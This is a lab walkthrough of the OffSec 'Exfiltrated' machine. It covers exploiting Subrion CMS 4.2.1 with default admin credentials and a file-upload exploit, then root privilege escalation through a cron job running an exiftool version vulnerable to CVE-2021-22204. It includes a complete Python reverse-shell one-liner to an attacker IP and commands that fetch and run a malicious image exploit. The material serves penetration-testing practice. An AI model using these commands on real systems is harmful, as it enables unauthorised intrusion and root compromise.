 # Exfiltrated

### Enumeration

```
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 09BDDB30D6AE11E854BFF82ED638542B
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 7 disallowed entries 
| /backup/ /cron/? /front/ /install/ /panel/ /tmp/ 
|_/updates/
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://exfiltrated.offsec/
```

Subrion CMS 4.2.1

Default credentials - admin:admin

Subrion CMS 4.2.1 - Arbitrary File Upload&#x20;

https://www.exploit-db.com/exploits/49876

### Initial Access

```
$ python3 49876 -u http://exfiltrated.offsec/panel/ --user admin --passw admin
```

Got webshell. Executed this command to reverse shell.

```
export RHOST="192.168.49.145";export RPORT=80;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
```

### PrivEsc

```
www-data@exfiltrated:/tmp$ cat /etc/crontab
* *     * * *   root    bash /opt/image-exif.sh

---

www-data@exfiltrated:/tmp$ cat /opt/image-exif.sh
#! /bin/bash
#07/06/18 A BASH script to collect EXIF metadata 

echo -ne "\\n metadata directory cleaned! \\n\\n"


IMAGES='/var/www/html/subrion/uploads'

META='/opt/metadata'
FILE=`openssl rand -hex 5`
LOGFILE="$META/$FILE"

echo -ne "\\n Processing EXIF metadata now... \\n\\n"
ls $IMAGES | grep "jpg" | while read filename; 
do 
    exiftool "$IMAGES/$filename" >> $LOGFILE 
done

echo -ne "\\n\\n Processing is finished! \\n\\n\\n"
```

**ExifTool Version Number : 11.88**

exiftool -> CVE-2021-22204-exiftool

[https://blog.convisoappsec.com/en/a-case-study-on-cve-2021-22204-exiftool-rce/](https://blog.convisoappsec.com/en/a-case-study-on-cve-2021-22204-exiftool-rce/)

> CVE-2021-22204 can be triggered with a perfectly valid image (jpg, tiff, mp4 and many more) leading to arbitrary code execution! Improper neutralization of user data in the DjVu file format in ExifTool versions 7.44(to 12.24+) and up allows arbitrary code execution when parsing the malicious image.

[https://github.com/convisolabs/CVE-2021-22204-exiftool](https://github.com/convisolabs/CVE-2021-22204-exiftool)

```
$ sudo apt install djvulibre-bin exiftool
```

Change the IP and Port in the exploit.py file

```
$ git clone https://github.com/convisolabs/CVE-2021-22204-exiftool.git
$ cd CVE-2021-22204-exiftool
$ python3 exploit.py
```

```
www-data@exfiltrated:/var/www/html/subrion/uploads$ wget http://192.168.49.145/image.jpg
```
